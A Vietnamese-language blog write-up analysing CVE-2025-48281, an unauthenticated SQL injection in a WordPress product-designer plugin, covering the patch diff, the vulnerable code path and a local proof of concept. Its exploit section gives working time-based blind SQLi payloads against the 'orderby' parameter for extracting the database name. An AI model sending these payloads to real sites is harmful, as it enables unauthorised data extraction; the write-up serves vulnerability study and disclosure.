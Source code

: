 # CVE-2025-48281 Analysis & POC


<!--more-->

Lỗ hổng tồn tại trong plugin **MyStyle Custom Product Designer** của WordPress trước phiên bản **3.21.2**. Lỗ hổng này cho phép kẻ tấn công tương tác trực tiếp với cơ sở dữ liệu, bao gồm khả năng trích xuất hoặc thao túng dữ liệu.

* **CVE ID**: [CVE-2025-48281](https://www.cve.org/CVERecord?id=CVE-2025-48281)
* **Sản phẩm**: [WordPress MyStyle Custom Product Designer Plugin](https://wordpress.org/plugins/mystyle-custom-product-designer)
* **Loại lỗ hổng**: SQL Injection
* **Phiên bản bị ảnh hưởng**: <= 3.21.1
* **Mức độ nghiêm trọng (CVSS)**: Cao (9.3)
* **Yêu cầu đặc quyền**: Không cần xác thực

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **MyStyle Custom Product Designer**: v3.21.1 (có lỗ hổng) và v3.21.2 (đã vá)
* **Công cụ diff**: **meld** hoặc bất kỳ công cụ so sánh phiên bản nào
* **WooCommerce plugin**: phải được kích hoạt trước khi cài đặt MyStyle vì plugin này sử dụng một số hàm từ WooCommerce

## Analysis

Nguyên nhân chính là việc ứng dụng chèn trực tiếp dữ liệu từ tham số **GET** vào câu truy vấn SQL mà không có biện pháp xác thực hợp lệ.

### Patch Diff

Dưới đây là sự khác biệt giữa hai phiên bản (3.21.1 và 3.21.2) trong file **includes/entities/class-mystyle-designmanager.php**.

{{< figure src="patch_diff.png" caption="So sánh bản vá" alt="Bản vá khác biệt" >}}

Bản vá mới đã thêm danh sách **whitelist** `$allowed_orderby` để chỉ cho phép sắp xếp theo các cột hợp lệ. Nếu giá trị `orderby` không nằm trong danh sách, nó sẽ tự động bị thay thế bằng `'ms_design_id'`, ngăn chặn chèn mã độc SQL.

## How it works

Lỗ hổng nằm trong hàm `get_designs` thuộc class `MyStyle_DesignManager` (file **includes/entities/class-mystyle-designmanager.php**).
Hàm này được gọi bởi các hàm như `get_items`, `init_index_request`, và một số hàm kiểm thử.

{{< figure src="search_1.png" caption="Kết quả tìm kiếm get_designs" alt="Tìm kiếm hàm get_designs" >}}

Vì đây là lỗ hổng **unauthenticated**, cần xác định hàm nào có thể được gọi mà không yêu cầu đăng nhập.
Kết quả cho thấy chỉ có `init_index_request` có thể bị khai thác trực tiếp qua URL `/designs/`.

{{< figure src="chart.png" caption="Luồng tấn công logic" alt="Luồng xử lý" >}}

## Exploit

### Kiểm tra SQLi

Gửi request chứa payload SQLi để kiểm tra:

```http
GET /designs/?orderby=(SELECT+SLEEP(5)) HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

Câu truy vấn kết quả:

```sql
SELECT * FROM wp_mystyle_designs WHERE ms_access = 0 ORDER BY (SELECT SLEEP(5)) ASC LIMIT 25 OFFSET 0
```

Nếu phản hồi chậm 5 giây → payload hoạt động.

{{< figure src="time_resp.png" caption="Kiểm tra độ trễ thời gian" alt="Kết quả phản hồi thời gian" >}}

> Không thêm dấu comment (`--`) sau `SLEEP()` vì sẽ khiến SQL parser lỗi do xuống dòng giữa `ASC` và `OFFSET`.

{{< figure src="debug.png" caption="Debug lỗi" alt="Debug lỗi cú pháp" >}}

### Lấy ký tự đầu tiên của tên cơ sở dữ liệu

```http
GET /designs/?orderby=IF(SUBSTRING(SCHEMA(),1,1)=0x77,SLEEP(5),1) HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

Nếu phản hồi chậm → ký tự đầu tiên của tên database là **w**.
Kỹ thuật này có thể được mở rộng để trích xuất toàn bộ tên cơ sở dữ liệu hoặc bảng dữ liệu.

## Conclusion

Lỗ hổng **CVE-2025-48281** trong plugin **MyStyle Custom Product Designer** (<= 3.21.1) xuất phát từ việc đưa trực tiếp dữ liệu người dùng vào truy vấn SQL mà không xác thực đúng cách.

Bản vá **3.21.2** đã khắc phục bằng cách áp dụng danh sách cột cho phép (`whitelist`) và kiểm tra giá trị đầu vào.

**Bài học rút ra:**

* Luôn xác thực dữ liệu đầu vào.
* Khi làm việc với cơ sở dữ liệu trong WordPress, **bắt buộc dùng `$wpdb->prepare()`**.
* Thường xuyên cập nhật plugin để tránh trở thành mục tiêu tấn công.

## References

[SQL Injection Cheat Sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress MyStyle Custom Product Designer Plugin <= 3.21.1 SQL Injection](https://patchstack.com/database/wordpress/plugin/mystyle-custom-product-designer/vulnerability/wordpress-mystyle-custom-product-designer-3-21-1-sql-injection-vulnerability)


---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-09-27-cve-2025-48281/  


